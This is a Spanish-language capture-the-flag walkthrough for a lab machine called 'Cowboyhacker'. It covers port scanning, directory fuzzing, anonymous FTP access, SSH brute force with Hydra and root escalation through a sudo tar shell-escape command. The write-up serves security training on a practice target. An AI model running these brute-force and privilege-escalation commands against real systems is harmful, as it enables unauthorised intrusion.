 # Cowboyhacker

## Enumeración de puertos

Para empezar, ejecutaremos el siguiente escaneo para la enumeración de puertos:

```bash
nmap <ipdelamaquina>
```

![Untitled](Cowboyhacker/Untitled.png)

ssh port: 22

ftp port: 21

http port: 80

## Directory fuzzing

Vamos a intentar acceder a algún directorio oculto de la máquina haciendo fuerza bruta, mediante un diccionario:

```bash
gobuster dir -u [http://<ip_de_la_maquina>](http://%3Cip_de_la_maquina%3E/) -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

![Untitled](Cowboyhacker/Untitled%201.png)

**Directorios encontrados con éxito:**

/images

/server-status

## FTP

Sabemos que FTP es un servicio bastante vulnerable.

Intentaremos acceder a él mediante credenciales comunes:

anonymous:anonymous

ftp:ftp

anonymous:

Conseguimos acceso al ftp de forma anónima, con el usuario “anonymous":

![Untitled](Cowboyhacker/Untitled%202.png)

Una vez tenemos acceso, listamos el directorio raíz, para ver el contenido:

![Untitled](Cowboyhacker/Untitled%203.png)

Una vez hecho esto, descargamos los ficheros de texto:

![Untitled](Cowboyhacker/Untitled%204.png)

Y examinamos su contenido:

![Untitled](Cowboyhacker/Untitled%205.png)

## SSH

### Ganando acceso a SSH

Intentamos acceder a SSH mediante fuerza bruta con el diccionario proporcionado por el fichero locks.txt (obtenido previamente del servidor FTP).

Comando para hacer fuerta bruta al login:

```bash
hydra -l lin -P locks.txt <ip_de_la_maquina> ssh
```

![Untitled](Cowboyhacker/Untitled%206.png)

Accedemos por SSH al usuario lin:

![Untitled](Cowboyhacker/Untitled%207.png)

Una vez tengamos acceso al SSH daríamos paso a una escalada de privilegios, porque tenemos que conseguir el fichero root.txt. Lo cual puede ser una pista de dónde se debe encontrar este fichero.

## Escalada de privilegios

Escalación de privilegios en un sistema linux:

1. Averiguamos qué comandos puede usar el usuario actual como root:

```bash
sudo -l
```

![Untitled](Cowboyhacker/Untitled%208.png)

2. Ahora sabemos que puede ejecutar “tar” como aministrador.

3. Buscamos un script de tar en [gtfobins](https://gtfobins.github.io/).

![Untitled](Cowboyhacker/Untitled%209.png)

4. Ejecutamos el comando:

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

5. Una vez hecho esto, tenemos acceso a una shell donde nos podemos convertir en administradores:

![Untitled](Cowboyhacker/Untitled%2010.png)

6. Hecho esto, es cuestión de buscar el root.txt:

![Untitled](Cowboyhacker/Untitled%2011.png)

## Resumen del documento:

1. **Ports:**

> SSH port: 22
> 

> FTPport: 21
> 

> HTTP port: 80
> 

2. **FTP login:**

user: anonymous

pwd: 

3. **Directory fuzzing:**

```bash
gobuster dir -u [http://](http://10.10.63.5/)<ipdelamaquina>-w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```

**Directorios obtenidos:**

> /images
> 

> /server-status
> 

4. **Nombre del escritor de task.txt (ver en archivo)**

5. **SSH login**

5.1 **ssh bruteforce command:**

user: lin

password: ******************

5.2 **user.txt** **flag**

6. **Privilege escalation**:

6.1 **Comandos que lin puede usar como root (**sudo -l**):**

> /bin/tar
> 

6.2 **Comando tar usado para obtener una shell con privilegios:**

```bash
sudo tar -cf /dev/null /dev/null --checkpoint=1 --checkpoint-action=exec=/bin/sh
```

6.3 **Usando una shell como usuario root**

```bash
sudo su 
```

1. **Buscamos el archivo root.txt**

  Buscamos en el directorio del usuario root una vez somos root

```bash
cd ~
```